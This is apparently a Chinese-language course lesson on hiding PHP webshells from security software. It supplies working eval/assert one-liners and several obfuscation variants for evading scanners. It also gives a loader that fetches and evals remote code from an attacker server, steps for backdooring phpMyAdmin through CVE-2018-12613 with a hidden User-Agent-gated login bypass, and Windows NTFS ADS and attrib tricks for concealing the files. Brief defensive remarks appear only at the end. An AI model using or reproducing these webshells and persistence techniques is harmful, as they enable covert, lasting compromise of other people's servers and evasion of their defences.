


# 课程 P1：如何优雅隐藏你的Webshell 🕵️


在本节课中，我们将学习如何绕过安全软件的查杀，以及如何巧妙地隐藏Webshell，使其更难被发现和清除。课程内容分为四个主要部分：绕过一句话木马查杀、绕过大马查杀、利用CMS特性隐藏Webshell，以及在服务器权限下的高级隐藏技巧。


## 概述


Webshell是网站安全测试和管理中常用的工具，但通常会被安全软件（WAF、杀毒软件等）检测和清除。本节课旨在分享一系列技术，通过代码变形、逻辑绕过和系统特性，使Webshell的查杀和发现变得更加困难。


---


## 第一部分：优雅地绕过一句话木马查杀 🛡️


上一节我们介绍了课程的整体目标，本节中我们来看看如何对经典的一句话木马进行变形，以绕过安全检测。


一句话木马的本质是**代码执行函数**与**参数接收**的结合。其核心原理是接收外部传入的代码并执行。


一个最简单的原型如下：
```php
<?php @eval($_GET[‘x‘]); ?>
```
这段代码中，`eval`是代码执行函数，`$_GET[‘x‘]`用于接收参数。访问时，通过 `?x=执行的代码` 即可让服务器运行我们传入的PHP代码。




然而，这种经典形式极易被查杀。我们的目标是**绕过查杀**，即让木马代码不被安全软件识别。

绕过查杀的核心思路是：**无论代码如何变形、拼接或隐藏，最终都要能还原出“代码执行函数+参数接收”这个核心结构**。


以下是几种绕过方法：


**1. 字符串截取与拼接**
通过`substr`等函数从一长串无意义的字符串中，截取出构成关键函数名（如`assert`）的字符，再进行拼接。
```php
<?php
$a = substr(‘1A‘,1).substr(‘2s‘,1).substr(‘3s‘,1).substr(‘4e‘,1).substr(‘5r‘,1).substr(‘6t‘,1); // 拼接出 ‘assert‘
$b = $_GET[‘x‘];
@$a($b);
?>
```

**2. 函数回调**
利用`array_map`、`call_user_func`等函数进行回调，间接执行代码。
```php
<?php
$func = ‘assert‘;
$param = $_POST[‘x‘];
array_map($func, array($param));
?>
```
这种方法将执行函数和参数作为变量传递，增加了识别难度。

**3. 动态函数执行**
将函数名存储在变量中，通过变量来调用函数。
```php
<?php
$f = ‘e‘.‘v‘.‘a‘.‘l‘; // 动态拼接函数名
@$f($_GET[‘cmd‘]);
?>
```

**关键点**：保持思考，尝试将关键字符（如eval, assert）拆散、编码或通过其他函数动态生成，避免直接出现在代码中。


---


## 第二部分：优雅地绕过大马查杀 🗡️


上一节我们探讨了一句话木马的绕过，本节中我们来看看功能更全面的“大马”如何隐藏。


大马（Webshell管理面板）与一句话木马的区别在于：一句话需要手动传入代码执行，而大马已将文件管理、数据库操作等功能集成在界面中，开箱即用。大马体积更大，特征更明显，因此绕过查杀需要更多技巧。


我们的目标是打造一款能**绕过常见WAF和云盾拦截**的大马。


**1. Base64编码与分割**
将大马的核心代码进行Base64编码。直接解码执行仍可能被拦截，因此需要对解码函数本身进行变形。
```php
<?php
// 分割 base64_decode 函数名
$f = ‘base‘ . ‘64‘ . ‘_‘ . ‘decode‘;
$code = ‘PD9waHAgLy8g5pys56aB5LiA5Liq5a2X56ym5Liy...‘; // 你的大马Base64编码
@eval($f($code));
?>
```


**2. 远程文件包含（推荐）**
这是更有效的方法。将大马代码存放在远程服务器的一个文本文件（如`shell.txt`）中，然后利用`file_get_contents`或`fopen`函数远程读取并执行。
```php
<?php
$url = ‘http://your-server.com/shell.txt‘;
$code = file_get_contents($url);
eval($code);
?>
```
**优势**：
*   木马本体不在目标服务器上，本地文件无特征代码。
*   执行时，被拉取的代码在内存中动态执行，部分基于文件静态特征查杀的引擎会失效。
*   可以结合方法1，远程文件里存放的是编码后的代码，本地脚本负责解码执行，增加复杂度。

**注意事项**：此方法需要目标服务器的`allow_url_fopen`配置为开启状态，但在实战中此条件通常满足。


---

## 第三部分：优雅地隐藏你的Webshell（利用CMS） 🎭

在获得Webshell权限后，如何长期、隐蔽地保留访问入口是关键。本节介绍如何利用目标网站CMS自身的特性来隐藏后门。

核心思路是：**将后门功能“寄生”在CMS原有的、可信的文件中**，避免增加新的可疑文件。

我们以`phpMyAdmin`（一个MySQL数据库管理工具）为例，利用其漏洞（CVE-2018-12613）进行演示。

**步骤概述：**
1.  **漏洞原理**：该版本`phpMyAdmin`存在后台文件包含漏洞，允许包含服务器上的任意文件。
2.  **修改利用**：通过修改`phpMyAdmin`的源码，降低漏洞触发条件（如将逻辑判断`&&`改为`||`），并**将漏洞触发点从后台移到前台**，使得无需登录即可利用。
3.  **权限维持**：修改`phpMyAdmin`的认证配置，将其从`cookie`认证改为`config`认证。这意味着程序会直接使用配置文件里写死的数据库账号密码进行连接，绕过了登录验证。
4.  **增加隐蔽性**：在修改认证方式的代码处，添加一个基于HTTP请求头（如`User-Agent`）的判断。只有当请求头包含特定字符串时，才使用`config`认证模式，否则使用正常模式。这样，只有攻击者知道如何访问，管理员正常访问则不受影响。

通过以上操作，我们得到了一个：
*   存在于正常软件（`phpMyAdmin`）中的文件。
*   无需登录即可访问的隐藏入口。
*   只有特定方式才能触发的后门功能。


这大大降低了被管理员日常巡检发现的概率。

---


## 第四部分：服务器权限下的高级隐藏技巧 🖥️


在已经获得服务器系统权限的情况下，我们可以使用更底层的技术来隐藏Webshell文件本身。


以下是几种在Windows系统下的隐藏技巧：


**1. 文件属性隐藏**
使用`attrib`命令给文件添加隐藏属性。
```cmd
attrib +s +h C:\wwwroot\shell.php
```
这样，在普通的文件管理器视图中，该文件将不可见。


**2. ADS流文件隐藏**
利用NTFS文件系统的备用数据流（Alternate Data Stream, ADS），将Webshell隐藏在一个正常文件的数据流中。
```cmd
# 将shell代码写入到正常文件 index.php 的 ADS 流中，流名为 shell.txt
echo “<?php @eval($_POST[‘cmd‘]); ?>“ > index.php:shell.txt
# 执行ADS流中的代码（需要借助包含或特定方式）
type index.php:shell.txt
```
在目录列表中，只会看到`index.php`，而`shell.txt`流是隐藏的。可以通过包含`index.php:shell.txt`来执行其中的PHP代码。


**3. 修改PHP配置目录**
通过修改`php.ini`配置文件中的`include_path`等目录设置，可以将Webshell放在一个非Web目录但PHP会去查找的路径下，再通过文件包含漏洞来调用，从而避免Webshell直接暴露在网站目录中。




**防护建议**：对于管理员，应定期使用`dir /a`或`ls -la`命令显示所有文件（包括隐藏文件），并使用专业工具检查ADS流。对于Linux系统，也有类似的隐藏技术，如以`.`开头的隐藏文件、挂载隐藏目录等。

---

## 总结

本节课我们一起学习了Webshell从制作到隐藏的完整链条：
1.  **绕过查杀**：通过字符串操作、函数回调、编码等方式变形一句话木马和大马，绕过静态特征检测。
2.  **逻辑隐藏**：利用远程加载分离代码与载体，利用CMS自身文件作为后门宿主，降低文件层面的可疑性。
3.  **系统隐藏**：在获得系统权限后，利用文件系统属性、ADS流等特性，使Webshell文件在常规检查中“消失”。


这些技术的目的是为了加深对攻防对抗的理解。在安全防护中，应建立多层次、立体化的防御体系，包括但不限于：定期进行代码审计、使用动态检测引擎、监控异常文件系统操作、以及保持系统和应用的最新状态。